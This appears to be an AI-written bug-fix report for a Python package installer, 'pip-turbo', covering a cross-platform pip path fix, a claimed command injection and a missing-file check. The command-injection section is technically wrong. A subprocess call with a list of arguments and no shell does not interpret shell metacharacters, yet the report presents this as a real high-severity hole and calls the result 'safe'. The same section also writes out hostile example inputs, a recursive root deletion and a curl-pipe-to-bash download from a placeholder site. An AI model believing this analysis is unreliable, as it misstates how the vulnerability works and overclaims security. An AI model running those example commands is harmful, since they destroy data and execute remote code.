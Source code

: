 # Bug Fixes Summary

This document details the 3 bugs found and fixed in the pip-turbo codebase.

## Bug 1: Platform Compatibility Issue (Critical)

### **Location**: `install_requirements.py`, lines 18-19 (original)
### **Severity**: Critical
### **Type**: Logic Error / Platform Compatibility

### **Description**
The original code used a Windows-specific path to locate the pip executable:
```python
pip_executable = os.path.join(os.path.dirname(sys.executable), 'Scripts', 'pip.exe')
```

This hardcoded path would fail on Linux and macOS systems because:
- Unix-like systems don't have a `Scripts` directory
- The pip executable doesn't have a `.exe` extension on non-Windows systems
- The pip executable is typically located in `bin/` directory on Unix systems

### **Impact**
- Complete failure on Linux and macOS systems
- Tool was essentially Windows-only despite claiming to be a general Python tool
- Users on non-Windows systems would get unclear error messages

### **Fix Applied**
Implemented cross-platform pip executable detection:
```python
# Use cross-platform pip executable discovery
if os.name == 'nt':  # Windows
    pip_executable = os.path.join(os.path.dirname(sys.executable), 'Scripts', 'pip.exe')
else:  # Unix-like systems (Linux, macOS)
    pip_executable = os.path.join(os.path.dirname(sys.executable), 'pip')
    # Fallback to system pip if local pip doesn't exist
    if not os.path.isfile(pip_executable):
        pip_executable = 'pip'
```

### **Benefits**
- Now works on Windows, Linux, and macOS
- Includes fallback mechanism for system-wide pip installations
- More robust and portable code

---

## Bug 2: Security Vulnerability - Command Injection

### **Location**: `install_requirements.py`, line 20 (original)
### **Severity**: High
### **Type**: Security Vulnerability

### **Description**
The original code passed package names directly from the requirements file to subprocess without any validation:
```python
subprocess.check_call([pip_executable, 'install', package])
```

This creates a command injection vulnerability because:
- Malicious package names could contain shell metacharacters
- An attacker could craft a requirements.txt with entries like `; rm -rf /` or `&& curl malicious-site.com/script.sh | bash`
- The subprocess call would execute these commands with the same privileges as the Python process

### **Impact**
- Potential for arbitrary command execution
- System compromise if malicious requirements files are processed
- Data loss or security breach

### **Fix Applied**
1. Added comprehensive package name validation:
```python
def validate_package_name(package):
    """
    Validates that a package name is safe to pass to pip.
    """
    # Allow only alphanumeric characters, hyphens, underscores, dots, version specifiers, and brackets
    pattern = r'^[a-zA-Z0-9][a-zA-Z0-9._-]*(\[[a-zA-Z0-9,_-]*\])?([<>=!~]*[0-9a-zA-Z.*-]*)*$'
    return bool(re.match(pattern, package.strip()))
```

2. Added validation check in `install_package()`:
```python
# Validate package name to prevent command injection
if not validate_package_name(package):
    return (package, False, f"Invalid package name: {package}")
```

### **Benefits**
- Prevents command injection attacks
- Validates package names against legitimate pip package specification format
- Provides clear error messages for invalid package names
- Supports version specifiers and extras (e.g., `package[extra]>=1.0.0`)

---

## Bug 3: Logic Error - Missing File Existence Check

### **Location**: `install_requirements.py`, lines 32-37 (original)
### **Severity**: Medium
### **Type**: Logic Error / Error Handling

### **Description**
The original code attempted to open and read the requirements file without checking if it exists:
```python
with open(file_path, 'r', encoding=encoding) as file:
    for line in file:
        # ...
```

This would cause:
- Unclear Python FileNotFoundError exceptions
- Poor user experience with cryptic error messages
- No graceful handling of missing files

### **Impact**
- Confusing error messages for users
- Poor error handling and user experience
- Makes debugging more difficult

### **Fix Applied**
Added explicit file existence check with user-friendly error message:
```python
# Check if the requirements file exists
if not os.path.isfile(file_path):
    print(f"❌ Error: Requirements file '{file_path}' not found.")
    return
```

### **Benefits**
- Clear, user-friendly error messages
- Graceful handling of missing files
- Better user experience
- Consistent with the tool's emoji-based output format

---

## Additional Improvements

### **README Update**
Updated the README.md to reflect that the tool now works cross-platform:
- Changed from "runs on Windows systems" to "works on Windows, Linux, and macOS systems"
- Removed the note about needing modifications for other operating systems

### **Overall Impact**
These fixes transform the codebase from:
- A Windows-only tool with security vulnerabilities and poor error handling
- To a secure, cross-platform tool with robust error handling and user-friendly messages

The fixes address critical functionality, security, and usability issues, making the tool production-ready and safe for general use.